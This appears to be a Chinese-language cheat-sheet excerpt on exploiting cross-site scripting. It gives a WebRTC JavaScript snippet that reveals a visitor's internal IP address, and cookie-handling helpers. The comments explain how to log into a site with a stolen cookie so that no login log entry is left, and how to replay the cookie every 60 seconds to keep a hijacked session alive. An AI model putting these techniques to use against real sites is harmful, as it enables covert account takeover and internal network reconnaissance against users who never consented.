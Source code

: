 #### XSS利用方式 - 探测内网

利用实时通信标准WebRTC 获取访问者内网IP demo:
```JavaScript
var findIP = new Promise(r=>{var w=window,a=new (w.RTCPeerConnection||w.mozRTCPeerConnection||w.webkitRTCPeerConnection)({iceServers:[]}),b=()=>{};a.createDataChannel("");a.createOffer(c=>a.setLocalDescription(c,b,b),b);a.onicecandidate=c=>{try{c.candidate.candidate.match(/([0-9]{1,3}(\.[0-9]{1,3}){3}|[a-f0-9]{1,4}(:[a-f0-9]{1,4}){7})/g).forEach(r)}catch(e){}}})

// Show the Intranet IP using alert()
findIP.then(ip => alert('your ip: '+ip)).catch(e => console.error(e))
```

#### XSS利用方式 - 对浏览器的存储(Storage)增删改查

cookie
```JavaScript
// 拿到cookie后
// 1.访问目标域名 浏览器设置该站点的cookie项 为拿到的cookie项 登录web系统
// web系统的"登录日志"功能会记录登录者的信息 "最后登录IP-时间" 而用cookie直接登录(比账号密码登录)web系统的大好处是 不会留下web登录日志!

function setCookie(name,value,days) {
    var expires = "";
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days*24*60*60*1000));
        expires = "; expires=" + date.toUTCString();
    }
    document.cookie = name + "=" + (value || "")  + expires + "; path=/";
}
function getCookie(name) {
    var nameEQ = name + "=";
    var ca = document.cookie.split(';');
    for(var i=0;i < ca.length;i++) {
        var c = ca[i];
        while (c.charAt(0)==' ') c = c.substring(1,c.length);
        if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length,c.length);
    }
    return null;
}
function eraseCookie(name) {   
    document.cookie = name+'=; Max-Age=-99999999;';  
}

//调用函数 设置cookie项
setCookie('name','value',70);


// 2.保活Cookie
// 写脚本 携带拿到的cookie每60s左右访问一次目标站 通常能够维持cookie长期有效!
```

